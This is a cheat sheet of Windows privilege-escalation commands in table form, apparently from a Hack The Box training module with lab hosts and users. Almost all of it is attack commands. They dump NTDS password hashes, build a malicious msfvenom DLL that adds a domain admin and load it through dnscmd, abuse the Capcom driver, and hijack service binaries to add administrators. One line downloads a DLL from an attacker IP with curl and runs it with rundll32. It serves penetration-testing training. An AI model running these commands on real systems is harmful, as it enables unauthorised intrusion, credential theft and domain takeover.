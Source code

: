 |`dir /q C:\backups\wwwroot\web.config`|Checking ownership of a file|
|`takeown /f C:\backups\wwwroot\web.config`|Taking ownership of a file|
|`Get-ChildItem -Path ‘C:\backups\wwwroot\web.config’ \| select name,directory, @{Name=“Owner”;Expression={(Ge t-ACL $_.Fullname).Owner}}`|Confirming changed ownership of a file|
|`icacls “C:\backups\wwwroot\web.config” /grant htb-student:F`|Modifying a file ACL|
|`secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL`|Extract hashes with secretsdump.py|
|`robocopy /B E:\Windows\NTDS .\ntds ntds.dit`|Copy files with ROBOCOPY|
|`wevtutil qe Security /rd:true /f:text \| Select-String "/user"`|Searching security event logs|
|`wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 \| findstr "/user"`|Passing credentials to wevtutil|
|`Get-WinEvent -LogName security \| where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*' } \| Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}`|Searching event logs with PowerShell|
|`msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll`|Generate malicious DLL|
|`dnscmd.exe /config /serverlevelplugindll adduser.dll`|Loading a custom DLL with dnscmd|
|`wmic useraccount where name="netadm" get sid`|Finding a user's SID|
|`sc.exe sdshow DNS`|Checking permissions on DNS service|
|`sc stop dns`|Stopping a service|
|`sc start dns`|Starting a service|
|`reg query \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters`|Querying a registry key|
|`reg delete \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters /v ServerLevelPluginDll`|Deleting a registry key|
|`sc query dns`|Checking a service status|
|`Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local`|Disabling the global query block list|
|`Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local -ComputerName dc01.inlanefreight.local -IPv4Address 10.10.14.3`|Adding a WPAD record|
|`cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp`|Compile with cl.exe|
|`reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"`|Add reference to a driver (1)|
|`reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1`|Add reference to a driver (2)|
|`.\DriverView.exe /stext drivers.txt` and `cat drivers.txt \| Select-String -pattern Capcom`|Check if driver is loaded|
|`EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys`|Using EopLoadDriver|
|`c:\Tools\PsService.exe security AppReadiness`|Checking service permissions with PsService|
|`sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"`|Modifying a service binary path|
|`REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA`|Confirming UAC is enabled|
|`REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin`|Checking UAC level|
|`[environment]::OSVersion.Version`|Checking Windows version|
|`cmd /c echo %PATH%`|Reviewing path variable|
|`curl http://10.10.14.3:8080/srrstr.dll -O "C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll"`|Downloading file with cURL in PowerShell|
|`rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll`|Executing custom dll with rundll32.exe|
|`.\SharpUp.exe audit`|Running SharpUp|
|`icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"`|Checking service permissions with icacls|
|`cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"`|Replace a service binary|
|`wmic service get name,displayname,pathname,startmode \| findstr /i "auto" \| findstr /i /v "c:\windows\\" \| findstr /i /v """`|Searching for unquoted service paths|